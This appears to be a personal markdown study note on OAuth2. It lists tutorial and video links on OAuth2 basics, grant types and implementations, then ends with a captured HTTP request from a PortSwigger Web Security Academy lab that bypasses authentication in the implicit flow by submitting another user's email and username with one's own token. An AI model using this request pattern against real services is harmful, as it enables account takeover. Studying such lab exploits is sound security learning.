 ### More on OAuth2

Overview of Oauth2:

- https://www.oauth.com/oauth2-servers/background/

- http://tutorials.jenkov.com/oauth2/authorization.html

- https://www.digitalocean.com/community/tutorials/an-introduction-to-oauth-2

- InterSystems Learning Services: https://www.youtube.com/watch?v=CPbvxxslDTU

- Okta Dev: https://www.youtube.com/watch?v=996OiexHze0

- Okta Dev Illustrated Guide: https://www.youtube.com/watch?v=t18YB3xDfXI

- Defog Tech: https://www.youtube.com/watch?v=LyqeHAkxVyk

Grant Types:

- https://portswigger.net/web-security/oauth/grant-types

Oauth2 demo and implementation using Passport.js and Google OAuth2

- Redirect URI: https://www.youtube.com/watch?v=or1_A4sJ-oY

- Callback Function: https://www.youtube.com/watch?v=nK6fkNShhGc

Oauth2 demo and implementation using Github Oauth2

- https://www.youtube.com/watch?v=R9lxXQcy-nM

- https://www.youtube.com/watch?v=EzQuFxRlUos

- https://www.youtube.com/watch?v=PdFdd4N6LtI

Spring Boot Oauth2

- https://www.youtube.com/watch?v=NPKtnZrIPVA

- https://www.youtube.com/watch?v=af_2f1rrZdw

- https://developer.okta.com/blog/2018/11/26/spring-boot-2-dot-1-oidc-oauth2-reactive-apis

### Authentication bypass via OAuth implicit flow

```
POST /authenticate HTTP/1.1
Host: 0afc00360442f039c0a1710000610045.web-security-academy.net
Cookie: session=pbKScreGuO7JUyfhSL4TyUlF6VwDHQw1
Content-Length: 103
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://0afc00360442f039c0a1710000610045.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0afc00360442f039c0a1710000610045.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"X0sYlvfn3-Jk0OmrIXq15RIUQ8Sz2Y4Z4cIwf9qemA4"}
```
